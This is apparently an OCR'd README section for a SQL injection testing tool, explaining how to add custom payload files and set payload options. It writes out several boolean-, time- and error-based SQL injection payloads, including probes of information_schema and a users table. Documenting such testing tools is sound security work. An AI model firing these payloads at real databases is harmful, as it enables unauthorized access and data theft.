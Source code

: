 ##  Advanced Configuration

### Custom Payloads - NEW & IMPROVED! 🎯

The tool now features **smart payload management** that makes it incredibly easy to work with new payloads:

#### Adding New Payloads
Simply add payloads to the text files in the `payloads/` directory - **one payload per line**:

```bash
# Add custom boolean payloads
echo "' OR 1=1 LIMIT 1--" >> payloads/boolean_payloads.txt

# Add custom time-based payloads  
echo "'; SELECT pg_sleep(10)--" >> payloads/time_payloads.txt

# Add comments for organization (lines starting with # are ignored)
echo "# MySQL-specific payloads" >> payloads/error_payloads.txt
echo "' AND ExtractValue(1,CONCAT(0x5c,version()))--" >> payloads/error_payloads.txt
```

#### Smart Payload Features

The script now includes intelligent payload handling:

1. **Automatic Deduplication**: Duplicate payloads are automatically removed
2. **Normalization**: Whitespace is normalized for consistency  
3. **Smart Ordering**: Payloads are ordered by complexity (simple → complex)
4. **No Limits**: By default, ALL payloads from files are used (configurable)
5. **Error Recovery**: Built-in fallback payloads if files are missing

#### Configuration Options

Edit `config.py` to customize payload behavior:

```python
# Payload configurations
MAX_PAYLOADS_PER_TEST = None  # None = use all payloads, or set a number
SKIP_DUPLICATE_PAYLOADS = True  # Automatically remove duplicates
NORMALIZE_PAYLOADS = True  # Clean whitespace
SMART_PAYLOAD_ORDERING = True  # Order by effectiveness
```

#### Payload File Format

Create clean, readable payload files:

```
# Boolean-based payloads for MySQL
' OR '1'='1
' OR '1'='2
' AND 1=1--
' AND 1=2--

# Advanced Boolean payloads
' OR EXISTS(SELECT 1 FROM users)--
' AND (SELECT COUNT(*) FROM information_schema.tables)>10--

# Comments and blank lines are ignored
```

